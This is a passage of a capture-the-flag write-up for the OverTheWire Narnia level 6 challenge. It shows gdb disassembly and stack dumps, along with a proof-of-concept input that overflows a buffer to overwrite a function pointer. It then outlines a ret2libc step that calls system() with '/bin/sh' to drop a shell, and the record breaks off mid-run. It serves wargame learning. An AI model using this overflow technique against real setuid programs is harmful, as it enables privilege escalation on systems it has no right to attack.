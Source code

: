     0x08049309 <+294>:	call   0x8049050 <geteuid@plt>
    0x0804930e <+299>:	push   ebx
    0x0804930f <+300>:	push   eax
    0x08049310 <+301>:	call   0x8049090 <setreuid@plt>
    0x08049315 <+306>:	add    esp,0x8
    0x08049318 <+309>:	lea    eax,[ebp-0x14]
    0x0804931b <+312>:	push   eax
    0x0804931c <+313>:	mov    eax,DWORD PTR [ebp-0xc]
 => 0x0804931f <+316>:	call   eax
    0x08049321 <+318>:	add    esp,0x4
    0x08049324 <+321>:	push   0x1
    0x08049326 <+323>:	call   0x8049080 <exit@plt>
    End of assembler dump.
    (gdb) x $ebp-0xc 
    0xffffd28c:	0x08049000
    (gdb) x/16wx $esp
    0xffffd278:	0xffffd284	0x42424242	0x42424242	0x41414100
    0xffffd288:	0x41414141	0x08049000	0x00000003	0xf7fade34
    0xffffd298:	0x00000000	0xf7da1cb9	0x00000003	0xffffd354
    0xffffd2a8:	0xffffd364	0xffffd2c0	0xf7fade34	0x080490ed

that after running yhe program with argv[1] equal to `AAAAAAAA` and argv[2] equal to
`BBBBBBBB`, the `fp` pointer is located right after the `b1` character array, which means
by overflowing `b1`, we can control the value of `fp`. A simple PoC of doing that is 
by running the program once again like this: 

    (gdb) r AAAAAAAACCCC BBBBBBBB 
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /narnia/narnia6 AAAAAAAACCCC BBBBBBBB
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, 0x0804931f in main ()
    (gdb) x/16wx $esp
    0xffffd278:	0xffffd284	0x42424242	0x42424242	0x41414100
    0xffffd288:	0x41414141	0x43434343	0x00000000	0xf7fade34
    0xffffd298:	0x00000000	0xf7da1cb9	0x00000003	0xffffd354
    0xffffd2a8:	0xffffd364	0xffffd2c0	0xf7fade34	0x080490ed
    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
    0x43434343 in ?? ()

As we can see the program tried to call the 0x43434343 which is an attacker controlled 
value. So by considering the fact that ASLR is disabled, we can find the address of 
`system()` which is loaded every time the program is spawned in the same memory address
and use it by first pushing in the stack the string "/bin/sh" in order to drop a shell
when `system()` is executed. A simple way for accomplishing this is shown below.

    (gdb) r AAAAAAAACCCC BBBBBBBBDDDD (1)
    Starting program: /narnia/narnia6 AAAAAAAACCCC BBBBBBBBDDDD
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html